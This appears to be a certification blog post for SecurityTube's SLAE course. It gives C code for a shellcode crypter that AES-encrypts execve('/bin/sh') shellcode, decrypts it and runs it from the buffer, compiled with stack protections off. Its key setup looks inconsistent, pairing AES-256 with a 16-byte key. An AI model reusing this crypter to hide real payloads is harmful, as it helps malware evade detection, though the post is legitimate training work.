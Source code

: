 ```yaml
---
comments: true
date: 2014-05-12
layout: blog
title: 'SLAE Assignment 7: Custom Crypter'
summary: 'This is the last assignment for the SLAE'
category: blog
tags: [asm-x86,nasm,slae]
---
```


This is the last assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

	
  1. Create a custom crypter like the one shown in "crypters" video

  2. Free to use any existing encryption schema
	
  3. Can use any programming language

I chose to use C and libgcrypt for this task.

Here is the source code for the encryption and decryption:


```
	//Description:	Assignment #7 (PoC of Crypter using AES-256)
	//Author: 		Paolo Stivanin <https://github.com/polslinux>
	//SLAE ID:		526

	#include <stdio.h>
	#include <string.h>
	#include <gcrypt.h>
	#include <stdint.h>
		
	#define ENC 1

	static void crypt(int, size_t, uint8_t *);

	uint8_t origShell[] = "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

	#if !ENC
		uint8_t encShell[] = "";
	#endif

	uint8_t iv[] = {0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x04};
	uint8_t ctr[] = {0x02,0x04,0x01,0x01,0x02,0x09,0xf1,0xc2,0x03,0x01,0x02,0xdd,0xec,0x02,0x03,0x04};
	const char *key = "securitytubeSLAE";

	int
	main (void)
	{
		int i, ag = gcry_cipher_map_name("aes256");
		size_t ln = strlen(origShell);
		uint8_t *buf = malloc(ln);

		crypt(ag, ln, buf);
		#if ENC
			for(i=0; i<ln; i++){
				printf("\\x%02x", buf[i]);
			}
			printf("\n");
		#else
			int (*ret)() = (int(*)())buf;
			ret();
		#endif

		free(buf);

		return 0;
	}

	static void
	crypt(  int algo,
		    size_t len,
		    uint8_t *buf)
	{
		gcry_cipher_hd_t hd;
		gcry_cipher_open(&hd, algo, GCRY_CIPHER_MODE_CTR, 0);
		gcry_cipher_setkey(hd, key, 16);
		gcry_cipher_setiv(hd, iv, 16);
		gcry_cipher_setctr(hd, ctr, 16);
		#if ENC
			gcry_cipher_encrypt(hd, buf, len, origShell, len);
		#else
			gcry_cipher_decrypt(hd, buf, len, encShell, len);
		#endif
		gcry_cipher_close(hd);
	}
```


I chose to use AES-256 to encrypt the shellcode (origShell , it contains the shellcode execve(/bin/sh, NULL, NULL) ). You can customize the encryption data by changing the iv , ctr  and key .

If you want to decrypt and run the shellcode you only need to change `#define ENC 1`  to `#define ENC 0` and then write the encrypted shellcode inside encShell .

To compile the above source I used this command:

```
gcc PoC_Crypter.c -o crypter -lgcrypt -fno-stack-protector -z execstack
```

This is all for this assignment and also for the SLAE certification. It was very interesting and funny to dive into the art of shellcoding and reversing, I enjoyed a lot this course, thanks SecurityTube :-)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
